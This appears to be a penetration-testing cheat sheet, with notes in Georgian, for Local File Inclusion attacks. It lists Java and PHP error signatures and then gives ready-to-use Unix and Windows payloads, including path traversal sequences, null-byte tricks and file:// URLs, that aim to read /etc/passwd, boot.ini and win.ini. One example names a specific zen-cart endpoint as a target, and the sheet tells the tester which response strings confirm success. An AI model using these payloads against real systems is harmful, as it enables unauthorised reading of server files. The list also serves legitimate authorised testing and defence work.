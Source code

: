 ### LFI 

#### Errors:
```
Detect Payload: abc.txt
```
request-ის შემდეგ აბრუნებს შემდეგ შეცდომებს respons-ში

##### Java Errors:
```
java.io.FileNotFoundException
java.lang.Exception
java.lang.IllegalArgumentException
java.net.MalformedURLException
```
##### PHP Errors:
```
fread\\(\\)
for inclusion \'\\(include_path=
Failed opening required
<b>Warning</b>:  file\\('
<b>Warning</b>:  file_get_contents\\('
open_basedir restriction in effect
```

##### Unix Payloads:
```
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd
../../../../../../../../../../../../../../../etc/passwd
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd\x00
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd\x00.html
/etc/passwd
```

შემდეგი სახის LFI - ის ტესტირება, როგორიცაა http://website/zen-cart/extras/curltest.php?url=file:///etc/passwd
```
file:///etc/passwd
/etc/passwd\x00
/etc/passwd\x00.html
/etc/passwd%00.ext
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00.ext
```

##### Windows Payloads:
```
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini
../../../../../../../../../../../../../../../boot.ini
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini\x00
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini\x00.html
C:\\boot.ini
C:\\boot.ini\0
C:\\boot.ini\0.html
%SYSTEMROOT%\\win.ini
%SYSTEMROOT%\\win.ini\0
%SYSTEMROOT%\\win.ini\0.html
file:///C:/boot.ini
file:///C:/win.ini
C:\\boot.ini%00.ext
%SYSTEMROOT%\\win.ini%00.ext
```
ვაკვირდებით respons და ვეძებთ 
Unix: ```root:x```
Windows: ``` 16 bit```


